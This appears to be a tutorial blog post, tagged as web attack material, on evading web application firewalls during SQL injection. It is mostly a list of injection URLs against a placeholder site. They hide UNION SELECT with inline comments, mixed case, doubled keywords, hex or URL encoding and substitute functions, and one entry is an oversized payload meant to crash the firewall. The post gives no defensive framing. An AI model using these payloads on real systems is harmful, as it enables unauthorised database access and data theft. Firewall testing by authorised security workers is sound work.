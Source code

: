 ```yaml
---
title: WAF bypassing
date: 2024-02-01 12:32
categories: [WEB, ATTACK]
tags: [WAF]
---
```


How to know if there is a Web Application Firewall?  
  
This is pretty simple! When you try to enter a command used for SQL Injections (usually the "UNION SELECT" command), you get an 403 Error (and the website says "Forbidden" or "Not Acceptable").  
**Example:**  
```sql
http://www.site.com/index.php?page_id=-15 UNION SELECT 1,2,3,4....   
(We get a 403 Error!)
```

---
  
## Basic/Simple Methods:  
  
First, of course, we need to know the Basic Methods to bypass WAF...  
### 1. Comments

You can use comments to bypass WAF:  
```sql
http://www.site.com/index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3,4.... (First Method that can Bypass WAF)
```

Most WAF will identify this method so they still show a "Forbidden" error...  
  
### 2. Change the Case of the Letters:  

You can also change lower/upper case:
```sql
http://www.site.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4....   (Another Basic Method to Bypass WAF!)
```

However, as before, this trick is also detected by most WAF!  
  
### 3. Combine the previous Methods:  

What you can also do is to combine the previous two methods:  
```sql
http://www.site.com/index.php?page_id=-15 /*!uNIOn*/ /*!SelECt*/ 1,2,3,4....
```
 
  
### 4. Replaced Keywords:  

Some Firewalls remove the "UNION SELECT" Statement when it is found in the URL. We can use this to our advantage.
```sql
http://www.site.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4....   
(The "union" and the "select" will be removed, so the final result will be: "UNION SELECT")
```
 
### 5. Inline Comments:  

Some firewalls get bypassed by Inserting Inline Comments between the "Union" and the "Select" Commands:  
```sql
http://www.site.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4...   (The %55 represents "U" and %53 represents "S")
```

---

  
## Advanced Methods:  

### 1. Buffer Overflow / Firewall Crash:  

Many Firewalls are developed in C/C++ and we can try and crash them using Buffer Overflows.

```sql
http://www.site.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4....      
(( You can test if the WAF can be crashed by typing:  
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4....      
If you get a 500, you can exploit it using the Buffer Overflow Method)
```

### 2. Replace Characters with their HEX Values:  

We can replace some characters with their HEX (URL-Encoded) Values.  

```sql
http://www.site.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4....
```

### 3. Use other Variables or Commands instead of the common ones for SQLi:  

Apart from the "UNION SELECT" other commands might be blocked.  
Common Commands Blocked:  

```sql
COMMAND  |  WHAT TO USE INSTEAD  

@@version  |  version() 
concat()   |  concat_ws()       
group_concat() | concat_ws()      
```
  
### 4. Misc Exploitable Functions:  

Many firewalls try to offer more Protection by adding Prototype or Strange Functions. These can be used to our advantage in some cases. :  
Example:  
Let's say the firewall replaces `*` with Whitespaces.  

```sql
http://www.site.com/index.php?page_id=-15+uni*on+sel*ect+1,2,3,4...   
(After the firewall is done formatting, the result will be: 15+union+select....)
```

